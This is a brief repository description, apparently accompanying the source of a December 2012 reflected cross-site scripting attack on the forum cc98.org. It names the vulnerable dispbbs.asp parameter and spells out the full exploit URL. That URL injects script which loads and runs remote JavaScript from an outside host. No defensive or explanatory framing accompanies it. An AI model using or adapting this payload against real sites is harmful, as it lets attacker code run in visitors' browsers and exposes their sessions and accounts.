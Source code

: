This is the sources for the XSS attack in 2012.12.31 at cc98.org, taking advantage of a reflection xss in /dispbbs.asp?Boardid=507&ID=290147";}$VECTOR$;function%20ttt{//
full url is http://www.cc98.org/dispbbs.asp?Boardid=507&ID=290147%22;}var%20s=%20document.createElement(%22Script%22);%20s.type%20=%20%22text/javascript%22;%20s.src%20=%20%22http://happyny.duapp.com/hi.php%22;document.body.appendChild(s);function%20ttt(){//
